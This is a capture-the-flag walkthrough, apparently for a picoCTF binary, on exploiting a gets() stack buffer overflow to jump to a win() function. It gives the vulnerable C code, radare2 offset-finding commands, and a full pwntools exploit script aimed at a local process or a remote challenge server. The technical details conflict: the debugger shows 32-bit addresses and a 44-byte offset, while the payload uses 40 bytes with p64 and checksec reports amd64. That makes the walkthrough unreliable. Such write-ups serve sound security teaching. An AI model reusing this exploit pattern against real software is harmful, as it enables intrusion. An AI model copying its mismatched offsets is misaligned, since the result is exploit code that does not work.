

# 🔓 Exploiting `vuln` – Buffer Overflow to `win()`

## 📁 Challenge Overview

This challenge presents a classic **buffer overflow** vulnerability. Your objective is to **redirect execution to a hidden `win()` function** by overflowing the buffer in the `vuln()` function.

---

## 🔍 Source Code Analysis

```c
#define BUFSIZE 32

void win() {
  char buf[64];
  FILE *f = fopen("flag.txt","r");
  fgets(buf,64,f);
  printf(buf); // Potential format string too!
}

void vuln() {
  char buf[BUFSIZE];
  gets(buf);  // <-- Vulnerable function (no bounds checking)

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

### ⚠️ Vulnerability

* The use of `gets(buf)` allows **unbounded input**, which can **overflow the stack**.
* The buffer size is 32 bytes, but the function does **not stop input at 32 bytes**.
* After `buf`, 8 bytes (on 64-bit) are used for saved base pointer (RBP), and then the **return address**.

---

## 🎯 Goal

Redirect execution to the `win()` function:

* Overflow the buffer
* Overwrite the return address with `win()`'s address
* Trigger the code inside `win()` to print the flag

---

## 🧠 Exploit Strategy

### Step-by-step:

1. **Determine buffer overflow offset**:

we can do this by using ragg2 and wopO tools of r2

```bash
$ ragg2 -P 50 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQA
```

```bash
[0x08049281]> db 0x080492be
[0x08049281]> dc
Please enter your string: 
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQA
Okay, time to return... Fingers Crossed... Jumping to 0x41415041
INFO: hit breakpoint at: 0x80492be
[0x080492be]> wopO 0x41415041
44
[0x080492be]>
```

here we can see that the buffer and the rerturn address is 44 bytes away


2. **Locate `win()` address**:
   Use `elf.symbols['win']` to get the actual address


3. **Return address overwrite**:
   
```python
payload = b'A' * 40 + p64(win)
```

---

## 🧪 Exploit Script (Python)

```python
from pwn import *

elf = context.binary = ELF('./vuln')
context.log_level = 'debug'

LOCAL = True  # Set False for remote

if LOCAL:
    p = process(elf.path)
else:
    p = remote('rescued-float.picoctf.net', 60937)

# Step 1: Find win() address
win = elf.symbols['win']
log.info(f"win() address: {hex(win)}")

# Step 2: Overflow buffer and overwrite return address
payload = b'A' * 40 + p64(win)

# Step 3: Send payload and interact
p.sendlineafter(b"Please enter your string:", payload)
p.interactive()
```

---

---

## 🛡 Protections

Check with `checksec ./vuln`:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE
```

* ✅ No canary – overflow is possible
* ✅ NX enabled – shellcode injection blocked, but ROP is fine
* ✅ No PIE – binary addresses are static, making exploitation easy

---

## ✅ Exploitation Result




---

## 📚 Summary

| Component     | Description                       |
| ------------- | --------------------------------- |
| Vulnerability | `gets()` → buffer overflow        |
| Goal          | Call `win()` to print flag        |
| Technique     | Overflow + return address rewrite |
| Difficulty    | Beginner (Classic BOF)            |

---

